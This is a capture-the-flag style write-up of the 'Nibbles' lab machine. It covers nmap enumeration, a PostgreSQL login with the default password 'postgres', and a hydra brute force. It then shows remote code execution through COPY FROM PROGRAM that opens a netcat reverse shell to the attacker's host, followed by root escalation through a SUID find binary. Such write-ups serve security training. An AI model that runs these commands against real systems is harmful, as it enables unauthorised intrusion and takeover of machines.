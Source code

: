```yaml
---
layout: post
title: PG | Nibbles
subtitle: This machine will highlight why we have hardening guidelines.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 09:34 UTC
Nmap scan report for 192.168.191.47
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.81 seconds
~~~

# Service Enumeration

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80

INS IMG 1

After digging around the contents of the website and running a gobuster sub-directory scan there was no significant entry point for a foothold

INS IMG 2

## PostgreSQL (TCP/5437)

PostgreSQL is a relational database management system software commonly used on Unix systems.

I first attempted to connect to postgres using the default username of "postgres" and a null password, however it prompted for password authentication

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql: error: connection to server at "192.168.191.47", port 5437 failed: fe_sendauth: no password supplied
~~~

I then attempted a few manual password attempts of "password" and "postgres", and postgres was the password!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 

~~~

I then enumerated the available databases using "\l" cmdlet and listed our user's privileges via "\du+" which showed we have Superuser privileges

~~~shell
┌──(kali㉿kali)-[~/Desktop/Nibbles]
└─$ psql -h 192.168.191.47 -U postgres -p 5437
Password for user postgres: 
psql (16.0 (Debian 16.0-2), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
                                                       List of databases
   Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+-------------+-------------+------------+-----------+-----------------------
 postgres  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | 
 template0 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |            |           | =c/postgres          +
           |          |          |                 |             |             |            |           | postgres=CTc/postgres
(3 rows)

postgres=# \du+
                                    List of roles
 Role name |                         Attributes                         | Description 
-----------+------------------------------------------------------------+-------------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | 
~~~

After researching I found a way to read directories and files by creating a database table and populating it with data on the targets local filesystem, which identified a user on the system named 'wilson'
https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql

INSIMG3

I then ran a hydra password brute force attempt on the wilson user account through the FTP service, but had no success so decided to dig deeper into what Superusers can do.
~~~shell
┌──(kali㉿kali)-[/usr/share/seclists/Passwords/Common-Credentials]
└─$ hydra -l wilson -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ftp://192.168.191.47
~~~

I found a RCE(https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql) exploit that works for Superusers on PostgreSQL version 9.3+ and used it to execute a reverse shell

Create listener on port 80

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
~~~

Perform RCE
~~~shell
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'nc -e /bin/sh 192.168.45.173 80';
~~~

And we recieved our reverse shell foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.45.173] from (UNKNOWN) [192.168.191.47] 42184

whoami
postgres
~~~

I ran a scan using linpeas.sh which identified the "find" binary has the SUID bit set, which can be used to elevate privileges through the -exec option of the find cmdlet as discussed in GTFOBins(https://gtfobins.github.io/gtfobins/find/#suid) list of binaries and bypasses

~~~shell
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                           
                      ╚════════════════════════════════════╝                                                                                                                 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                            
strace Not Found                              
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
~~~

~~~shell
$ find . -exec /bin/sh -p \; -quit
# whoami
root
~~~
